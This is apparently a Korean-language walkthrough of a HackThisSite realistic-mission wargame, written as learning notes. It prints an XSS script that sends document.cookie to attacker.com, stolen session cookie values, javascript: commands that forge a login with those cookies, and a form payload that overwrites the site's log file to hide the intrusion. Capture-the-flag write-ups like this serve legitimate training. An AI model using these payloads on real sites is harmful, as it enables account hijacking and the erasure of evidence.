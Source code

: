 - 상사 이메일은 메시지 보내기에서 확인 가능하므로, 특별히 얻을 정보 없음
- `m-crap@crappysoft.com` 쿠키정보 확인
  + `javascript:alert(document.cookie)`

#### 세션하이잭킹

```html
<script>
  url="http://attacker.com/getCookie.php?cookie="+document.cookie;
	window.open(url,width-0,height=-;
</script>
```

- 위 스크립트를 private message로 보내면 아래 정보 나온다.

```text
strUsername=m-crap%40crappysoft.com;
strPassword=94a35a3b7befff5eb2a8415af04aa16c;
intID=1;
```

- 이걸 이용해서 쿠키정보 입력(가짜로그인)
```javascript
javascript:document.cookie="strUsername=m-crap%40crappysoft.com;"
javascript:document.cookie="strPassword=94a35a3b7befff5eb2a8415af04aa16c;"
javascript:document.cookie="intID=1;"
```

![9_crappy-soft-fake-login.png](images/9_crappy-soft-fake-login.png)

- 로그파일 지우기
  + http://www.hackthissite.org/missions/realistic/9/files/ 에서 로그파일확인
	+ 로그파일 경로: ./files/logs/logs.txt
  + 메일링리스트 경로: ./files/mailinglist/addresses.txt
	+ 이메일리스트에 가입하는 페이지에서 정보를 address.txt에 저장하는 내용 있음
	+ ->이걸 이용해서 로그파일에 내용""으로 덮어쓰기.

```javascript
javascript:document.write("<form action=subscribemailing.php method=post><input type=hidden name=strFilename value=./files/logs/logs.txt><input type=hidden name=strEmailAddress value=''><input type='submit' value='replacelogs'></form>")
```

